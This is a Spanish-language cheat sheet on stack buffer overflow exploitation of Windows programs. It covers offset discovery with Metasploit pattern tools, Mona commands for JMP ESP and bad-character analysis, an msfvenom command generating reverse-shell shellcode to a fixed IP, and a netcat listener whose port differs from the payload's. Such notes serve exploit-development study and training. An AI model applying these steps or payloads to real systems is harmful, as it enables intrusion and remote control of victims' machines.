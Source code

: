 > # Buffer Overflow

# Desensamblar un archivo .exe 

```
objdump -d -Mintel goodpwd.exe > goodpwd_disassembled.txt
```


# Algunas Operaciones Inseguras
- strcpy
- vsprintf
- strcat
- printf
- gets / fgets
- memcpy
- scanf/ fscanf

# Calculado el offset
### Script dir
```
cd /usr/share/metasploit-framework/tools/exploit/
```
## Paso 1 
### Generar un payload con patter_create.rb, tan grande como el numero que especifiquemos
```
./pattern_create.rb -l 2000
```

## Paso 2
### Copiamos el payload generado y lo usamos en el input

## Paso 3 
### Utilizamos el espacio de memoria para calcular el offset por medio de patter_offset
```
./pattern_offset.rb -q 30684239 
```

# Uso de Mona
## Configuramos el directorio de trabajo para Mona
```
!mona config -set workingfolder C:\somefolder\%p
```
## Para crear un payload con Mona 
```
!mona pc 100
```
## Para calcular el Offset
```
!mona po 61413761
```
## Una vez que el EIP es sobreescrito podemos ejecutar:
```
!mona suggest
```
Mona nos pedirá que proporcionemos información sobre la carga útil y creará automáticamente un módulo Metasploit para explotar la aplicación.
## Para ver modulos que no tengan ASLR activado 
```
!mona noaslr
```
## Para verificar los modulos disponibles con el detalle de medidas de seguridad de cada uno
```
!mona modules
```
## Para saltar a un registro, especificamos el registro con -r
```
!mona jmp -r esp
```
## Tambien podemos especificar un modulo o mas de uno con -m
```
!mona jmp -r esp -m kernel
```
o de misma manera se puede usar para buscar entre todas las opciones del sistema con:
```
!mona find -s "\xff\xe4" -m kernel
```
donde `xFFxE4 = JMP ESP`

Una vez que se encuentra la direccion de la instruccion se puede continuar

# Identificar los BadChars
## Lista de todos los badchars
```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
## Identificar batchars con mona
Previamente debemos tener un directorio de trabajo creado y usar 
```
!mona bytearray
```
Con lo cual se creara un archivo `bytearray.bin` en la carpeta de nuestro directorio de trabajo.
Luego ejecutamos el payload mandando los batchars, y comparamos usando 
```
!mona compare -f C:\Users\Diego\Desktop\carpeta\bytearray.bin -a 0187A128
```
donde especificamos la ruta del archivo `.bin` y con el parametro `-a` especificamos la direccion del `EIP`. Lo siguiente es quitar el resultado de badchar detectado de nuestro payload y crear otro `bytearray.bin` con el siguiente comando
```
!mona bytearray -cpb "\x00"
```
Donde especificamos los badchar que no queremos que se incluya en el nuevo `bytearray.bin`

# Generar la shellcode
## Ejemplo de Shellcode
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.15 LPORT=4646 -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c
```
Donde especificamos la aqrquitectura del sistema, los badchars que no queremos que se incluyan en el shellcode.
## Para escuchar el puerto podemos usar 
```
rlwrap nc -nlvp 446
```
## Alternativa al uso de NOPs en la shellcode
El desplazamiento de pila es la alternativa al uso de NOPs, para ello utilizamos `nasm`, ejemplo recorrer en 10 unidades
```
sub esp,0x10
```
Lo cual nos dara como resultado el siguiente opcode
```
\x83\xEC\x10
```